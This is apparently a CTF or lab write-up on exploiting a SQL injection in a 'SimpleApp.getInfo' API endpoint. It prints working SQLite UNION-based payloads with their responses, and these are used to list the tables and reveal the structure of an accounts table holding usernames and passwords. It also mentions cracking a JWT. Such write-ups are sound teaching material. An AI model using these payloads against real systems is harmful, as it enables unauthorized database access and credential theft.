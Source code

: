 ### Exploitation

While the JWT token was in the process of cracking, I played with the API a bit and found what at first looked like boolean-based SQL injection in the `SimpleApp.getInfo` endpoint:

```
{
    "id": "0 OR id=661"
}

Returned:

{
    "message": "Will update soon."
}
```

But when playing with this vulnerability more, I discovered this is also a union-based SQL injection:

```
{
    "id": "0 UNION SELECT 1"
}

Returned:

{
    "message": "1"
}
```

### And the fun begins!

I have extracted the list of tables using the following payload:

```
{
    "id": "0 UNION SELECT GROUP_CONCAT(name,\";\") FROM sqlite_master"
}

Returned:

{
    "message": "accounts;sqlite_autoindex_accounts_1;messages;sqlite_autoindex_messages_1;sqlite_autoindex_messages_2"
}
```

Then, I extracted the structure of the `accounts` table:

```
{
    "id": "0 UNION SELECT sql FROM sqlite_master WHERE name=\"accounts\""
}

Returned:

{
    "message": "CREATE TABLE \"accounts\" (\n\tusername TEXT UNIQUE,\n\tpassword TEXT\n)"
}
```
